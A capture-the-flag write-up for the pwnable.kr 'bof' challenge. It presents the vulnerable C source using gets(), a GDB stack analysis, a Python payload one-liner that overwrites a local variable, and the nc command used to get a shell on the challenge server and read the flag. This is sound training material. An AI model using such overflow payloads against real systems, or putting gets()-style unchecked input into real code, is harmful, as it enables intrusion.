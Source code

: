 # bof

Source code ([Link to binary][http://pwnable.kr/bin/bof]):

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

If you are running a 32-bit machine, you will not have any problems running the binary as the binary is compiled for 32-bit machines.

```bash
$ file bof
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

For the users on 64-bit machines, you follow the solution mentioned [here][https://askubuntu.com/a/454254] to run the 32-bit binaries on 64-bit machines.

As evident from the source code, it is clear that we have to overflow the `overflowme buffer` and pass the `if confition` on line number 8.

If we try to go the usual route and try overflowing this binary by passing in a large value to check if it segfaults, we get the following:

```bash
$ ./bof
overflow me : 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Nah..
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

We can inspect the reason for this by checking the output of `checksec` utility which states what all binary protection mechanisms are applied on this binary.

```bash
$ checksec --file ./bof
```

![1561208118894](assets/1561208118894.png)

As we can see all the binary protection mechanisms are applied over this binary, we have to search for another route.

Lets hop into GDB and see exactly how far is the value of key from the buffer and try overwriting the value of key.

```assembly
gef➤  disas func
Dump of assembler code for function func:
   0x0000062c <+0>:		push   ebp
   0x0000062d <+1>:		mov    ebp,esp
   0x0000062f <+3>:		sub    esp,0x48
   0x00000632 <+6>:		mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
```

Lets set a breakpoint at `func+40` and see the values int the stack (`x/30hwx $esp`) once we have send in `A*32` as our input.

```assembly
gef➤  x/30hwx $esp
0xffffd100:	0xffffd11c	0xffffd204	0xf7fb6000	0x00000000
0xffffd110:	0x00000000	0xf7fb6000	0xf7e0fb39	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd130:	0x41414141	0x41414141	0x41414141	0xbec6ed00
0xffffd140:	0x0000000d	0x56556ff4	0xffffd168	0x5655569f
0xffffd150:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd160:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7df8751
0xffffd170:	0x00000001	0xffffd204
```

As we can see, the value of `0xdeadbeef (key)` is at `0xffffd150`,  52 bytes away from the starting of buffer `overflowme`, thus to bypass the comparison at line 8, we have to create a payload which consists of 52 junk bytes and `0xcafebabe` as last 4 bytes.

> **NOTE**: We willll have to pass the value `0xcafebabe` in little `endian format` along with other values.

```python
>>> import struct
>>> struct.pack("<I", 0xcafebabe)
b'\xbe\xba\xfe\xca'
```

Payload can be generated using the following in-line python command:

```python
python -c 'print("A"*52 + "\xbe\xba\xfe\xca")' > /tmp/input
```

Lets give this a try in GDB and see if we were able to achieve the results we were after.

```assembly
gef➤  r < /tmp/input
Starting program: /home/jtnydv/pwnable.kr/bof/bof < /tmp/input
overflow me : 
...
gef➤  x/30hwx $esp
0xffffd100:	0xffffd11c	0xffffd204	0xf7fb6000	0x00000000
0xffffd110:	0x00000000	0xf7fb6000	0xf7e0fb39	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd130:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd140:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd150:	0xcafebabe	0x00000000	0x565556b9	0x00000000
0xffffd160:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7df8751
0xffffd170:	0x00000001	0xffffd204
```

As it is clear from the output of examine command we have successful overwritten the value at `0xffffd150` with `0xcafebabe`. Thus our payload works, now we can use this payload to actually get a shell on the remote server using the following command:

```bash
$ (cat /tmp/input; cat) | nc pwnable.kr 9000
$ ls -al
total 496
drwxr-x---   3 root bof    4096 Oct 23  2016 .
drwxr-xr-x 114 root root   4096 May 19 15:59 ..
d---------   2 root root   4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof    7348 Sep 12  2016 bof
-rw-r--r--   1 root root    308 Oct 23  2016 bof.c
-r--r-----   1 root bof      32 Jun 11  2014 flag
-rw-------   1 root root 467454 Jun 22 09:17 log
-rw-r--r--   1 root root      0 Oct 23  2016 log2
-rwx------   1 root root    760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :) # FLAG
```

![1561209485688](assets/1561209485688.png)

